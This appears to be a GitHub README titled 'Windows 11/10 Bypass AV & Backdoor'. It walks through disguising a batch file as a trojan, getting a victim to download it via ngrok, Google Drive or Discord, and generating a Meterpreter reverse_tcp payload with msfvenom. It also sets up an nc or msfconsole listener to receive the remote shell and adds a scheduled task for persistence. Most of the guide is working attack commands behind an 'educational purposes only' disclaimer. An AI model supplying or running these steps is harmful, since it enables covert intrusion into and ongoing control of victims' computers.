 # Windows 11/10 Bypass AV & Backdoor
##### For educational purposes only!
##### Social Engineering required!
## Steps:

1. Make it convincing by turning it into a trojan horse.
2. Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
3. Generate the payload: <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

4. Setup your listener with nc or msfconsole: <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
5. For persistence, create a schuled task for backdoor payload: <br>
SCHTASKS /CREATE /SC DAILY /TN "FOLDERPATH\TASKNAME" /TR "C:\SOURCE\FOLDER\APP-OR-SCRIPT" /ST HH:MMExampleSCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "C:\Windows\System32\notepad.exe" /ST 11:00

